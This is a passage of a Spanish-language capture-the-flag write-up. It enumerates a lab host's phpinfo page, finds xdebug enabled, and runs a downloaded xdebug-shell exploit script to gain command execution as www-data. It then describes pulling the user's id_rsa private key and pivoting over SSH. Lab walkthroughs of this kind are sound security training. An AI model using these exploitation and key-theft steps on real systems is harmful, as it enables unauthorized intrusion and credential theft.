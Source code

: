 ```shell
2 packets transmitted, 1 received, 50% packet loss, time 1003ms
rtt min/avg/max/mdev = 103.288/103.288/103.288/0.000 ms
```
Nos vamos al sitio web y encontramos la misma ruta vpn y un archivo phpinfo, donde nos encontramos que xdebugg 2.6.0 está habilitado.

![imagen7](/assets/images/Static/static7.png)

```shell
❯ curl -s -X GET http://172.20.0.10/info.php | grep "module"
<SNIP>
<h2><a name="module_sodium">sodium</a></h2>
<h2><a name="module_spl">SPL</a></h2>
<h2><a name="module_standard">standard</a></h2>
<h2><a name="module_sysvmsg">sysvmsg</a></h2>
<h2><a name="module_sysvsem">sysvsem</a></h2>
<h2><a name="module_sysvshm">sysvshm</a></h2>
<h2><a name="module_tokenizer">tokenizer</a></h2>
<h2><a name="module_xdebug">xdebug</a></h2>
<h2><a name="module_zend+opcache">Zend OPcache</a></h2>
<h2><a name="module_zlib">zlib</a></h2>
```
Nos descargamos este [script](https://raw.githubusercontent.com/gteissier/xdebug-shell/master/xdebug-shell.py) para que nos podamos crear un servicio en escucha para que en el momento de hacer la petición podamos ejectuar comandos.

```shell
❯ python2 xdebug-shell.py --url=http://172.20.0.10/info.php
>> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
>> whoami
www-data
```
Ahora que tenemos ejecución remota de comandos podemos hacer enumeración del sistema para ver que podemos obtener. Con ayuda de awk obtenemos la id_rsa del usuario www-data ya que el script solo no muestra una línea del ouput. Entramos por ssh y vemos con route que tenemos comunicación con la interfaz del pki que vimos en la lista de la página web.
